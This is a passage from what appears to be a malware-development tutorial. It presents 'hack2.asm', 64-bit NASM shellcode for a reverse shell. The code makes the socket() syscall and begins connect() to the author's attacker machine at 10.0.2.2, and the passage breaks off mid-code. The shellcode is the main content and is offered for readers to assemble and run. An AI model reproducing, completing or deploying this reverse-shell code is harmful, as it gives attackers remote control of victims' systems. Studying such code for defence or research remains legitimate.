 ![malware](/assets/images/163/2025-07-05_19-38.png){:class="img-responsive"}    

As you can see, everything is worked as expected! =^..^=     

### practical example 2

In this case, I just update the IP address in the `asm` script. Instead of using `127.0.0.1` I will work with my Kali's address:     

```bash
10.0.2.2
```

So, this is the only difference. So full source code for the second example is looks like this `hack2.asm`:     

```nasm
bits 64

global start

start:
   ; socket(AF_INET, SOCK_STREAM,0);
   push 0x2             ; store 0x2 on stack
   pop rdi              ; pop this value into rdi -> AF_INET

   push 0x1             ; store 0x1 on stack
   pop rsi              ; pop this value into rsi -> SOCK_STREAM

   xor rdx,rdx          ; null out rdx -> 0x00

   push 97              ; socket() syscall - 97
   pop rax
   bts rax,25
   syscall

   mov r9,rax           ; save socket fd in r9

   ; connect(sockt, (struct sockaddr *) &revsockaddr,sizeof(revsockaddr));
   mov rdi,r9           ; rdi -> socket file descriptor

   ; sockaddr
   xor rsi,rsi          ; null out rsi
```